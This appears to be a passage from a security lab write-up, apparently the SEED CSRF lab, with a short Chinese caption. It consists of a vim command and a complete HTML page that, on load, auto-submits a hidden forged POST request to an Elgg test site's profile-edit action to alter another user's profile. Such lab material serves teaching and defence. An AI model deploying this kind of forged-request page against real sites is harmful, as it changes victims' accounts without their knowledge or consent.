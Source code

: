 ```
sudo vim /var/www/CSRF/Attacker/csrf.html
```

这里是代码：

```
<html>

<body>
    <h1>
        This page forges an HTTP POST request.
    </h1>
    <script type="text/javascript">
        function post(url, fields) {
            //create a <form> element.
            var p = document.createElement("form");
            //construct the form
            p.action = url;
            p.innerHTML = fields;
            p.target = "_self";
            p.method = "post";

            //append the form to the current page.
            document.body.appendChild(p);
            //submit the form
            p.submit();
        }

        function csrf_hack() {
            var fields;
            // The following are form entries that need to be filled out
            // by attackers. The entries are made hidden, so the victim
            // won't be able to see them.
            fields += "<input type='hidden' name='name' value='Boby'>";
            fields += "<input type='hidden' name='description' value='test'>";
            fields += "<input type='hidden' name='accesslevel[description]' value='2'>";
            fields += "<input type='hidden' name='briefdescription' value='test'>";
            fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
            fields += "<input type='hidden' name='location' value='test'>";
            fields += "<input type='hidden' name='accesslevel[location]' value='2'>";
            fields += "<input type='hidden' name='guid' value='40'>";
            var url = "http://www.csrflabelgg.com/action/profile/edit";
            post(url, fields);
        }
        // invoke csrf_hack() after the page is loaded.
        window.onload = function() {
            csrf_hack();
        }
    </script>
</body>

</html>
```
